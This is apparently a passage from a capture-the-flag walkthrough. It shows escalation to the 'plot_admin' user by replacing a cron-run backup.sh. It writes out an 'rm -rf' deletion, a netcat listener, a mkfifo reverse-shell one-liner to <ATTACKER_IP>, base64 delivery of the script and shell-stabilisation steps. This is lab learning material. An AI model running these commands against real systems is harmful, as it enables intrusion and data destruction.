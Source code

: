 We can delete the contents of the directory and create our own `backup.sh` script to send us a reverse shell and when the script is ran by the user `plot_admin`, we will get a connection as the same user.

First, let's delete the contents by using the rm command:

```sh
rm -rf /var/www/scripts/
```

On our attacking machine, lets open a new terminal with a Netcat listener on port 4445:

```sh
nc -nvlp 4445
```

We will create a new text file with the following code and save it as `backup.sh`:

```sh
#!/usr/bin/env bash

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <ATTACKER_IP> 4445 >/tmp/f
```

Next, we can use [base64](https://linux.die.net/man/1/base64) command to encode our script:

```sh
base64 -w 0 backup.sh
```

![9acb1cd559ac6343e94f5cfe659b88dd.png](/resources/a7f6a4ed504c4f20a3cbb7b73ddc0660.png)

This will output a long base64 string which we will copy to the clipboard. Switch to the terminal that is connected to the victim machine and use the following command to decode the base64 string and save it to `backup.sh` and make the script executable using `chmod`:

```sh
echo '<BASE64_STRING>' | base64 -d > backup.sh
chmod +x backup.sh
```

Checking the `/etc/crontab` file shows the script is running every minute:

```sh
cat /etc/crontab
```

![9db292b0522ef71c3f5fa89012ccb78b.png](/resources/55540e7f11a641b5b9c39f7becd49a15.png)

After a minute we should get a connection back on our Netcat listener:

![a9f63097ccf4e7a1e40a928f51900248.png](/resources/0758c9fa5a0146bbae5a83b954bd66a4.png)

Let's stablize the shell again:

1. `python3 -c 'import pty;pty.spawn("/bin/bash")'` ... Use Python to spawn a stable shell
2. `CTRL + Z` ... Backgrounds the current shell
3. `stty raw -echo;fg` ... Fixes echoing and foregrounds the shell
4. `export TERM=xterm-256color` ... Sets terminal to xterm
